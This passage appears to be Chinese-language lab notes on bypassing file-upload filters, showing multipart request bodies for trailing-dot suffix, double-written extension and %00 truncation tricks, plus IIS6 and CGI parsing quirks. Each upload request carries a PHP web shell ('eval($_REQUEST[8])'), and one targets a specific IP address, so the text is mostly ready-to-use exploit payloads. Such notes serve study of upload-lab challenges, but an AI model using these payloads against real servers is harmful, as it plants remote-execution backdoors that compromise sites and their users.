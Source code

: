 ###### 构造文件后缀绕过

```plain
#file_ext = strrchr($file_name, '.')； 是检测末尾最后是否是. (很明显是为了防御双写.)我们可以写⼀个空
------WebKitFormBoundary3b4MZBZoOnzEpoeC
Content-Disposition: form-data; name="upload_file"; filename="shell.php. ."
Content-Type: image/png
<?php eval($_REQUEST[8]);?>
------WebKitFormBoundary3b4MZBZoOnzEpoeC
```

###### 双写绕过

```plain
#$file_name = str_ireplace($deny_ext,"", $file_name);这⾥的意思就是讲检测到的危险字符替换为空
------WebKitFormBoundary3b4MZBZoOnzEpoeC
Content-Disposition: form-data; name="upload_file"; filename="shell.pphphp"
Content-Type: image/png
<?php eval($_REQUEST[8]);?>
------WebKitFormBoundary3b4MZBZoOnzEpoeC
```

###### %00 截断

```plain
#他会⾃动重命名， $img_path = $_GET['save_path']."/".rand(10,99).date("YmdHis").".".$file_ext;这⾥很明显使⽤了直接的拼接
POST /Pass-11/index.php?save_path="'/upload/shell.php%00 HTTP/1.1
Host: 59.63.200.79:8016
-----WebKitFormBoundaryZIDuWzIommKYBtmZ
Content-Disposition: form-data; name="upload_file"; filename="shell.jpg"
Content-Type: image/jpeg
<?php eval($_REQUEST[8]);?>
------WebKitFormBoundaryZIDuWzIommKYBtmZ`
```

#### IIS6 解析漏洞

##### 分号截断

使用分号进行截断，访问的时候要访问带分号的全名

```plain
test.asa;1.gif
```

##### 目录名代.asp

目录名代.asp, 目录内的文件就会被当做 asp 文件执行

```plain
123.asp/12.jpg
```

##### CGI 解析漏洞

在文件名后加 /.php, 文件就会被当做 php 截止

```plain
1.jpg/.php
```
